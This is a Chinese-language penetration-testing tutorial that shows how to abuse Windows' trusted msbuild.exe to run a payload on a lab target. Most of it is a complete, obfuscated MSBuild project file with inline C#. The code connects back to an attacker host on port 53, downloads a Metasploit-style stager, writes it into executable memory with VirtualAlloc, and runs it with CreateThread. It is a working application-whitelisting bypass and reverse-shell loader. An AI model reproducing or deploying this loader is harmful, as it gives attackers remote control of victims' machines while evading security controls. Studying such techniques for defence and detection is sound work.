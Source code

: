 
### MSBuild简介：

MSBuild 是 Microsoft Build Engine 的缩写，代表 Microsoft 和 Visual Studio的新的生成平台。MSBuild在如何处理和生成软件方面是完全透明的，使开发人员能够在未安装Visual Studio的生成实验室环境中组织和生成产品。

MSBuild 引入了一种新的基于 XML的项目文件格式，这种格式容易理解、易于扩展并且完全受 Microsoft 支持。MSBuild项目文件的格式使开发人员能够充分描述哪些项需要生成，以及如何利用不同的平台和配置生成这些项。

**说明：**Msbuild.exe所在路径没有被系统添加PATH环境变量中，因此，Msbuild命令无法识别。

基于白名单MSBuild.exe配置payload：

Windows 7默认位置为：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：** 192.168.1.3 Windows 7

### 靶机执行：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe Micropoor.xml
```
![](media/0dec9e476e8a77edc2e1fa1a43329f76.jpg)

### 配置攻击机msf：
![](media/57d9f8497cc0fcd01e0d51b5b6dc0e2a.jpg)

### 附录：Micropoor.xml
**注：x86 payload**

```c#
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">

<!‐‐ C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj Micropoor ‐‐>

<Target Name="iJEKHyTEjyCU">

<xUokfh />

</Target>

<UsingTask

TaskName="xUokfh"

TaskFactory="CodeTaskFactory"

AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\\Microsoft.Build.Tasks.v4.0.dll" >

<Task> 

<Code Type="Class" Language="cs">

<![CDATA[

using System; using System.Net; using System.Net.Sockets; using System.Linq; using System.Runtime.InteropServices; using System.Threading; using Microsoft.Build.Framework; using Microsoft.Build.Utilities;

public class xUokfh : Task, ITask {

[DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 ogephG,UInt32 fZZrvQ, UInt32 nDfrBaiPvDyeP, UInt32 LWITkrW);

[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 qEVoJxknom, UInt32 gZyJBJWYQsnXkWe, UInt32 jyIPELfKQYEVZM,IntPtr adztSHGJiurGO, UInt32 vjSCprCJ, ref UInt32 KbPukprMQXUp);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr wVCIQGmqjONiM, UInt32 DFgVrE);

static byte[] VYcZlUehuq(string IJBRrBqhigjGAx, int XBUCexXIrGIEpe) {

IPEndPoint DRHsPzS = new IPEndPoint(IPAddress.Parse(IJBRrBqhigjGAx), XBUCexXIrGIEpe);

Socket zCoDOd = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { zCoDOd.Connect(DRHsPzS); }

catch { return null;}

byte[] OCrGofbbWRVsFEl = new byte[4];

zCoDOd.Receive(OCrGofbbWRVsFEl, 4, 0);

int auQJTjyxYw = BitConverter.ToInt32(OCrGofbbWRVsFEl, 0);

byte[] MlhacMDOKUAfvMX = new byte[auQJTjyxYw + 5];

int GFtbdD = 0;

while (GFtbdD < auQJTjyxYw)

{ GFtbdD += zCoDOd.Receive(MlhacMDOKUAfvMX, GFtbdD + 5, (auQJTjyxYw ‐ GFtbdD) < 4096 ? (auQJTjyxYw ‐ GFtbdD) : 4096, 0);}

byte[] YqBRpsmDUT = BitConverter.GetBytes((int)zCoDOd.Handle);

Array.Copy(YqBRpsmDUT, 0, MlhacMDOKUAfvMX, 1, 4); MlhacMDOKUAfvMX[0] = 0xBF;

return MlhacMDOKUAfvMX;}

static void NkoqFHncrcX(byte[] qLAvbAtan) {

if (qLAvbAtan != null) {

UInt32 jrYMBRkOAnqTqx = VirtualAlloc(0, (UInt32)qLAvbAtan.Length, 0x1000, 0x40);

Marshal.Copy(qLAvbAtan, 0, (IntPtr)(jrYMBRkOAnqTqx), qLAvbAtan.Length);

IntPtr WCUZoviZi = IntPtr.Zero;

UInt32 JhtJOypMKo = 0;

IntPtr UxebOmhhPw = IntPtr.Zero;

WCUZoviZi = CreateThread(0, 0, jrYMBRkOAnqTqx, UxebOmhhPw, 0, ref JhtJOypMKo);

WaitForSingleObject(WCUZoviZi, 0xFFFFFFFF); }} 

public override bool Execute()

{

byte[] uABVbNXmhr = null; uABVbNXmhr = VYcZlUehuq("192.168.1.4", 53);

NkoqFHncrcX(uABVbNXmhr); 

return true; } }

]]>

</Code>

</Task>

</UsingTask>

</Project>
```

>   Micropoor

